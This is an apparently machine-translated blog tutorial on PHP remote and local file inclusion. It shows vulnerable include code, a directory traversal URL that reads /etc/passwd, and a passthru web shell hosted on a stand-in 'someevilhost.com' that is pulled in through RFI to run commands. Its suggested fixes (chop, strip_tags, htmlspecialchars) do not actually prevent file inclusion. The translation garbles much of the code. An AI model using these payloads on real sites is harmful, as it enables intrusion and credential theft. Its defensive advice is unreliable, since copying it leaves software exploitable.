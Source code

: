 ### RFI/LFI Payload List

As with many exploits, remote and local file inclusions are only a problem at the end of the encoding. Of course it takes a second person to have it. Now this article will hopefully give you an idea of protecting your website and most importantly your code from a file iclusion exploit. I’ll give code examples in PHP format.

Let’s look at some of the code that makes RFI / LFI exploits possible.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```

Now obviously this should not be used. The $ page entry is not fully cleared. $ page input is directed directly to the damn web page, which is a big “NO”. Always remove any input passing through the browser. When the user clicks on “File” to visit “files.php” when he visits the web page, something like this will appear.

```
http: //localhost/index.php? page = files.php
```

Now if no one has cleared the input in the $ page variable, we can have it pointed to what we want. If hosted on a unix / linux server, we can display the password as configuration files for shaded or uncleaned variable input.

Viewing files on the server is a “Local File Inclusion” or LFI exploit. This is no worse than an RFI exploit.

```
http: //localhost/index.php? page = .. / .. / .. / .. / .. / .. / etc / passwd
```

The code will probably return to / etc / passwd. Now let’s look at the RFI aspect of this exploit. Let’s get some of the codes we’ve taken before.

```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = $ _GET [page];
include ($ page);
?>
```
Now suppose we write something like …

```
http: //localhost/index.php? page = http: //google.com/
```

Probably where the $ page variable was originally placed on the page, we get the google.com homepage. This is where the codder 
can be hurt. We all know what c99 (shell) can do, and if coders are careful, they may be included in the page, allowing users to surf through sensitive files and contacts at the appropriate time. Let’s look at something simpler that can happen on a web page. The faster and more dirty use of RFI exploitation is to your advantage. Now, create a file named “test.php” and put the following code in it and save it.

```

<? Php
passthru ($ _ GET [cmd]);
?>

```

Now this file is something you can use to your advantage to include it on a page with RFI exploitation. The passthru () command in PHP is very evil, and many hosts call it “out of service for security reasons”. With this code in test.php, we can send a request to the web page, including file inclusion exploit.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php
```

When the code makes a $ _GET request, we must provide a command to pass to passthru (). We can do something like this.

```
http: //localhost/index.php? page = http: //someevilhost.com/test.php? cmd = cat / etc / passwd
```

This unix machine will also extract the file / etc / passwd using the cat command. Now we know how to exploit RFI exploit, now we need to know how to hold it and make it impossible for anyone to execute the command, and how to include remote pages on your server. First, we can disable passthru (). But anything on your site can use it again (hopefully not). But this is the only thing you can do. I suggest cleaning the inputs as I said before. Now, instead of just passing variables directly to the page, we can use a few PHP-proposed structures within functions. Initially, chop () from perl was adapted to PHP, which removes whitespaces from an array. We can use it like this.
```
<a href=index.php?page=file1.php> Files </a>
<? Php
$ page = chop ($ _ GET [page]);
include ($ page);
?>
```

There are many functions that can clear string. htmlspecialchars ()
htmlentities (), stripslashes () and more. In terms of confusion, I prefer to use my own functions. We can do a function in PHP that can clear everything for you, here I’ve prepared something easy and quick about this course for you.

```
<? Php
function cleanAll ($ input) {
$ input = strip_tags ($ input);
$ input = htmlspecialchars ($ input);
return ($ input);
}
?>
```

Now I hope you can see what’s going on inside this function, so you can add yours. I would suggest using the str_replace () function and there are a lot of other functions to clear them. Be considerate and stop the RFI & LFI exploit frenzy!

This is the end of my blog! Thank you for taking the time to read (:
